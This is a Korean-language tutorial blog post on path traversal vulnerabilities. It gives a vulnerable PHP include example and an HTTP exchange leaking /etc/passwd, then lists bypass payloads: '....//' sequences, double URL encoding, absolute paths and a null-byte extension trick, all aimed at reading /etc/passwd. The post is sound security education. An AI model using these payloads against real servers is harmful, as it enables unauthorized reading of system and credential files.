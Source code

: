 ```yaml
---
layout: single
title: Path Traversal
categories: Web-vuln
tag: [Path Traversal, web, web vulnerability, injection]
toc: true
author_profile: false
---
```

# Path Traversal 이란 무엇인가?

> ./(현재 디렉토리) 또는 ../(상위 디렉토리로 이동)를 나타내는 문자들이 제대로 필터링되지 않아 파일 시스템 API로 전달되어, 허용된 디렉토리가 아닌 숨겨진 디렉토리 및 파일에 대한 무단 access를 가능하게 하는 취약점이며, 보통 File 명과 같이 사용자의 입력값이 전달되어, 찾아오는 로직에서 많이 발견된다.

<hr>

**Vulnerability Code**

```php
<?php
$template = 'red.php';
if (isset($_COOKIE['TEMPLATE'])) {
    $template = $_COOKIE['TEMPLATE'];
}
include "/home/users/phpguru/templates/" . $template;

인용 : https://en.wikipedia.org/wiki/Directory_traversal_attack
```

위와 같은 File을 가져오는 로직이 구성되어있다고 생각해보자. 그럼 사용자의 입력값이 include "/home/users/phpguru/templates/" . 뒤에 고스란히 이어붙여 진다. 이 때 디렉토리 이동 명령어가 필터링 되어 제거되지않고 적용된다면 어떻게 될까?
<br><br>

```
GET /vulnerable.php HTTP/1.0
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
```

```
HTTP/1.0 200 OK
Content-Type: text/html
Server: Apache

root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh 
daemon:*:1:1::/tmp: 
phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh
```

위와같이 passwd 파일을 탈취 될 수 있으며, 큰 피해로 이어질 수 있다.
<br><br>
이러한 취약점은 파일 경로에서 불러오는 경우와, API 요청을 통해 불러올 수도 있다.

```
/var/www/images/test.png/../../../etc/passwd

'''

https://insecure-test.com/findimage?filename=../../../etc/passwd
```

## 공격 표면

🌝 **<u>Path Traversal 취약점은 어떤 부분에서 나타나고 테스팅 해볼 수 있을까</u>** 
{: .notice--primary} 
<hr>
사용자의 요청이 서버내의 path로 연결되는 구간, API 요청에 의해 파일값을 불러오는 구간이 공격표면이 될 수 있다. 
<br>
./ 또는 ../ 와 같은 경로이동 문자열을 넣어봄으로써 응답값이 어떻게 돌아오는지 확인하면 Path Traversal 취약점이 존재하는지에 대한 유무 판단이 가능하다.

```
/var/www/images/test.jpg -> 200(ok)
/var/www/images/.test.jpg -> 200(ok)
/var/www/images/../images/test.jpg -> 200(ok)
```

하지만 위의 테스팅에서 200ok 를 받는다고 무조건 Path Traversal 취약점이 존재한다고 확신하기에는 불분명 하다.
<br>
이는 ./ 문자를 Path 그대로 받아들이는지 ./문자를 필터링하여 제거시켰는지에 대해 확실치 않기 때문이다.
<br>
이런 경우 ..//와 같이 ./가 제거되더라도 ..// → ./ 되기 때문에 테스팅해볼만하다.

```
/var/www/images/..//test.jpg
```

**<u style="color=red; ">만약 위의 테스트 결과가 404(Not Found) 가 뜬다면 이는 ./ 문자열이 제거가 되지 않는다는것을 의미한다.  200 ok가 반환 되더라도, ./가 필터링 되어 ./가되거나 아니면 이러한 제거로직을 반복구성 해놓았을 가능성도 존재한다.</u>**

## Bypass - Path Traversal
### Basic Bypass

```
GET /image?filename=../../../etc/passwd 200 (ok)
```

경로 이동 문자열을 통해 파일 시스템 서버의 최상단으로 올라가 passwd파일을 추출한다.

### Traversal sequences blocking

./ ../ 와 같은 시퀀스를 차단하는 로직이 구현되어 있더라도, 파일 시스템이 절대경로를 통해 파일을 가져올 경우 경로 이동 문자열 없이 원하는 파일을 가져올 수 있다.

```
GET /image?filename=/etc/passwd HTTP/2 200 (ok)
GET /image?filename=../../../etc/passwd HTTP/2 400 Bad Request
```

### Traversal sequences blocking2

../ 시퀀스가 필터링 되어 차단되더라도 ….// 문자열을 입력했을 때 로직이 반복적으로 탐지하여 차단하는 경우가 아니라면 ../ 가 사라지고 ….// → ../가 남아 우회가능성이 존재한다.

```
GET /image?filename=../../../etc/passwd HTTP/2 400 Bad Request
GET /image?filename=....//....//....//etc/passwd HTTP/2 200 (ok)
```

### Traversal sequences blocking3

입력값 검증 후 제거하는 로직이 반복적으로 순회하도록 되어있을 경우, URL 인코딩 Double 인코딩
또는 비표준 인코딩 등을 사용하여 우회할 수 있다.

```
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2 200 (ok)
```

### 정해진 위치에서부터의 경로 탐색

개발자가 특정 파일을 찾기위해서는 개발자가 정해놓은 특정 위치에서부터 절대경로로 검색해야 찾을 수 있도록 설정해놨을 경우도 존재한다.

```
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
```

### 만약 파일시스템에서 특정 확장자로 끝나는지에 대한 검증 로직이 존재한다면?

null 바이트 문자를 이용하여 우회할 수 있다.

```
GET /image?filename=../../../etc/passwd%00.jpg HTTP/2 200(ok)
```

<br>
<div class="notice">
  <h4>이러한 진입점들을 잘 찾아내는것이 중요하다. 파일의 본문내용을 경로로 사용되는 부분도 존재하며, 요청값과 응답값을 잘 확인하자.</h4>
</div>

# 대응 방안
1. 입력값에 대한 유효성 검사.


# Reference
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal